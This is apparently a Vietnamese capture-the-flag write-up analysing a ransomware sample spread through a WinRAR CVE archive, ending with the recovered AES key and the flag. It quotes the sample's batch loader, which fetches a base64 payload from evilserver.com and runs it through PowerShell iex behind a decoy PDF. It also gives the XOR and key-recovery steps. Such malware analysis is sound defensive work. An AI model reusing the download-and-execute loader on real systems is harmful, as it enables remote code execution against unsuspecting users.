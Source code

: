 # Guessing.

Chall : https://drive.google.com/file/d/1A6PQX4KitPRWyPzkN-8TVUZpShLzK2mD/view?usp=drive_link

Description: I received an email from an unidentified sender who described an intriguing world. Intrigued by their narrative, I followed the link in the email, downloaded a file, and attempted to open it. To my surprise, my essential documents were suddenly encrypted. I'm now in need of assistance to recover them.


----
Đề cho 1 file zip, chỉ cần mở ra nhìn đã dễ dàng nhận ra là con CVE winrar khá nổi gần đây :v. Mình sẽ vào folder bên trong và extract thẳng con bat file ra. Nội dung file bat:

```
@echo off
setlocal
set "ServerURL=http://evilserver.com:8080/useless.png"
for /f "delims=" %%i in ('curl -s -X GET "%ServerURL%"') do set response=%%i
powershell "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('%response%')) | iex"
Pancham.pdf
endlocal
```

Nó sẽ tải xuống useless.png, decode ra và iex để thực thi, sau đó pop up pdf để đánh lừa.

Decode nội dung và ta có được 1 script powershell bị obfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/1cacee44-d0a4-4075-9885-7076907e464e)

Mình dùng `PSDecode` để deobfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/842a0cb0-af31-4775-b9d6-1cd997c9d25e)

Code này sẽ thực hiện tải xuống con panpan.exe, mở file `final report` làm key xor và xor với các bytes trong panpan.exe (từ bytes thứ 1024, size xor là 31488). Sau khi xor thì sẽ thực thi con exe đầu ra.

Tuy nhiên ta không có file `final report`, mình ngồi thử với các header của file docx, pdf,....nhưng không khả quan, nên mình bỏ hướng này. Tuy nhiên khi mình load vào `pebear` cùng 1 vài sample PE 64 bit khác, mình để ý:

![image](https://github.com/NVex0/uWU/assets/113530029/61bdf04f-ae23-4596-9d66-749b23b84977)

Phần entry point của file này bắt đầu bằng 5 bytes 0, khá lạ, trong khi các file khác thì đều bắt đầu với dãy `48 83 EC 28 E8 F7 04 00 00 48 83 C4 28 E9 72 FE FF FF CC CC 40 53 48 83 EC 20 48 8B D9 33 C9 FF 15 BB 56 01 00 48 8B CB FF 15 AA 56 01 00 FF 15`, mình đem đi xor thử:

![image](https://github.com/NVex0/uWU/assets/113530029/07075e86-fee5-4a20-8c38-3dc7c254b054)

Để ý thấy `\x48\x83\xec\x28\xe8` lặp lại rất nhiều lần, mình đoán chắc rằng đây là xor key, mình xor thẳng lại với panpan.exe:

```
with open('PanCham.exe', 'rb') as f:
    fileb = f.read()

key = b"\x48\x83\xec\x28\xe8"
offset = 1024
size = 31488

with open("final.exe", "wb") as f:
    for i in range(len(fileb)):
        if i in range(offset, offset + size):
            f.write((fileb[i] ^ key[i % len(key)]).to_bytes(1, byteorder='big'))
        else:
            f.write(fileb[i].to_bytes(1, byteorder='big'))
```

Và load được vào ida mà không bị lỗi :v Nice. Mình tìm đến hàm main:

![image](https://github.com/NVex0/uWU/assets/113530029/59ee015a-6dd1-4eaf-b416-4d35c7c65b5c)

Sau 1 khoảng thời gian rất lâu đọc code:v, mình hiểu nó thực thi như sau:

1. GET data từ root của evilserver, sau đó dùng 1 hàm để decode base64. Data này dễ dàng thấy trong tcp stream 7.

2. xor decoded data ở trên với 8 bytes lấy từ file `version.txt`.

3. Dùng kết quả xor này, sẽ dùng để tạo key, iv,....các thứ, sau đó encrypt ảnh SensitiveData.png lại.

Vì không có file version.txt, ta buộc phải tự tìm lại key. Mình để ý tới hàm `CryptImportKey`, như bước thứ 3 mình nếu trên, kết quả của xor chính là dùng trong hàm này. hàm này sẽ phải khởi tạo PUBLICKEYSTRUC BLOB header trước, xong mới đến các thông tin khác. Dựa vào Blob, mình sẽ retrieve lại key như này:

+ Đầu tiên là 1 byte key blob type. Theo doc của microsoft, key blob type có 8 loại. Cái này mình sẽ bruteforce vì mình không biết key là loại nào.

+ Tiếp đến là 1 byte version, mà theo mình đọc thì nó thường được set = 0x02:

![image](https://github.com/NVex0/uWU/assets/113530029/ce8bdf12-a75b-4ef0-bfef-d79a1e181c70)

+ 2 bytes reversed, theo như doc của microsoft thì `must be set to zero`, vậy là mình có 0x0000.

+ Tiếp là 4 bytes ALG_ID lưu dưới dạng little endian, như đã nói trên, ở dưới mình thấy có hàm `CryptSetKeyParam` set các giá trị như cipher mode, padding mode, iv các thứ. Từ đó mình đoán rằng mã hóa này là AES, nhưng key length không rõ, nên mình sẽ thử ALG_ID của tất cả các loại length AES.

Mình brute thử key, trong quá trình brute mình để ý toàn bộ key đều là ASCII hết:

![image](https://github.com/NVex0/uWU/assets/113530029/c1804390-86c3-4ff1-a237-5798e6659c14)

Từ đó mình rút ra type sẽ là `PLAINTEXTKEYBLOB`, tức byte đầu = 0x08.

Rút ngắn phạm vi :v, vì là ASCII hết nên mình in thẳng char và được 4 key còn lại như này:

![image](https://github.com/NVex0/uWU/assets/113530029/e419ca64-3494-4173-a11c-a5895e968aa1)

:)) Key đầu hơi hơi meaningful, hợp lý hóa hơn thì nó là key tương ứng với ALG_ID của AES_256, đúng ý mình. Mình sẽ thử với xorkey này luôn.

Sau khi xor mình được pbData mới sẽ là : `0802000010660000200000009d0e0433bf40f4141a030f2d8effa8b88c7e56cc459cb7bad982879478b18e53c5bb3a7478ba51be09b9e8f6892fabb3`

> Mình tìm hiểu cả ngày cũng không hiểu đoạn thừa `20000000` sau blob là cái gì, nhưng nghĩ làm gì có key nào bắt đầu đầy 00 00 thế kia nên mình bỏ qua luôn 💀.

Dựa vào dòng 47 trong main, ta lấy IV là 16 bytes cuối pbData, còn key thì như nói trên, mình skip đoạn `20000000` và lấy 32 bytes, vừa hay là nó vừa khít length của pbData khai báo trong hàm `CryptImportKey`. Decrypt với iv và key như vậy, mình khôi phục lại được ảnh và lấy flag:

![image](https://github.com/NVex0/uWU/assets/113530029/a5dd3cdd-9870-439e-8169-c88eb6e24e55)

Flag: `ASCIS{What?_PANCHAM_1s_3v0lving!}`


